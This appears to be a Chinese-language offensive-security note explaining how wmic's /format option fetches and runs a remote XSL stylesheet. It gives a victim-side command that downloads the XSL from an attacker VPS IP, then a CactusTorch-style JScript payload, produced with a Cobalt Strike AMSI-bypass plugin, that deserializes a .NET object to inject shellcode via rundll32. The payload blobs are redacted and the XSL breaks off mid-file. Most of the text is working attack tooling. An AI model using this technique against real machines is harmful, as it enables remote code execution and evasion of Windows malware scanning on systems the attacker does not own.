 # Wmic

wmic是一款Microsoft工具，它提供一个wmi命令行界面，用于本地和远程计算机的各种管理功能，以及wmic查询，例如系统设置、停止进程和本地或远程运行脚本。因此，它可以调用XSL脚本来执行。可以通过xsl脚本来执行命令，脚本一般用jscript编写。先编写一个xsl脚本，然后放到VPS上，受害机执行下面命令会远程下载并执行xsl的内容。

```cmd
C:\Users\Desktop>wmic os get /format:"http://172.21.66.218:8080/a.xsl"
<?xml version="1.0" encoding="UTF-16"?>0
```

通过安装[AMSI_bypass.cna](https://github.com/Ridter/AMSI_bypass/blob/master/AMSI_bypass.cna)重启cs后attack->AMSI bypass Web Delivery(s)生成a.xsl，生成的代码大致逻辑如下

```xml
<?xml version='1.0'?>
<xsl:stylesheet version="1.0"
xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
xmlns:msxsl="urn:schemas-microsoft-com:xslt"
xmlns:user="http://mycompany.com/mynamespace">
<msxsl:script language="JScript" implements-prefix="user">
var binary = "rundll32.exe";
var code = "XXX";
function setversion() {
var shell = new ActiveXObject('WScript.Shell');
ver = 'v4.0.30319';
try {
shell.RegRead('HKLM\\SOFTWARE\\Microsoft\\.NETFramework\\v4.0.30319\\');
} catch(e) {
ver = 'v2.0.50727';
}
shell.Environment('Process')('COMPLUS_Version') = ver;
}
function debug(s) {}
function base64ToStream(b) {
var enc = new ActiveXObject("System.Text.ASCIIEncoding");
var length = enc.GetByteCount_2(b);
var ba = enc.GetBytes_4(b);
var transform = new ActiveXObject("System.Security.Cryptography.FromBase64Transform");
ba = transform.TransformFinalBlock(ba, 0, length);
var ms = new ActiveXObject("System.IO.MemoryStream");
ms.Write(ba, 0, (length / 4) * 3);
ms.Position = 0;
return ms;
}
function shellcode() {
var serialized_obj = "XXX";
var entry_class = 'cactusTorch';
try {
setversion();
var stm = base64ToStream(serialized_obj);
var fmt = new ActiveXObject('System.Runtime.Serialization.Formatters.Binary.BinaryFormatter');
var al = new ActiveXObject('System.Collections.ArrayList');
var n = fmt.SurrogateSelector;
var d = fmt.Deserialize_2(stm);
al.Add(n);
var o = d.DynamicInvoke(al.ToArray()).CreateInstance(entry_class);
o.flame(binary,code);
} catch (e) {
debug(e.message);
}
return 0;
}
</msxsl:script>
<xsl:template match="/">
```